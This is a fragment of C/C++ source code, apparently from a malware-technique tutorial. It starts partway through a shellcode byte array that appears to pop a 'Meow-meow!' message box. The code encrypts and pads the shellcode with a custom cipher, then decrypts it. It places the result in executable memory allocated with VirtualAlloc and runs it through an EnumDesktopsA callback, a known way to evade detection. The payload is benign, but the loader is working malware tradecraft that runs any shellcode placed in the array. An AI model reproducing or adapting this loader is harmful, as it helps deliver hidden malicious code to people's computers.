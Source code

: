 ```cpp
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  size_t pad_len;

  seed(12345); // seed the PRNG

  printf("original shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  // unsigned char* padded = pkcs7_pad(my_payload, my_payload_len - 1, 16, &pad_len);
  unsigned char* padded = pad_data(my_payload, my_payload_len - 1, 16, &pad_len);

  printf("padded shellcode: ");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  mmb_encrypt(padded, pad_len);
  
  printf("encrypted shellcode: ");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  seed(12345); // reset the PRNG to the same state
  mmb_decrypt(padded, pad_len);

  printf("decrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }

  printf("\n\n");
  unpad_data(padded, &pad_len); // unpad the data

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);

  free(padded);
  return 0;
}
```
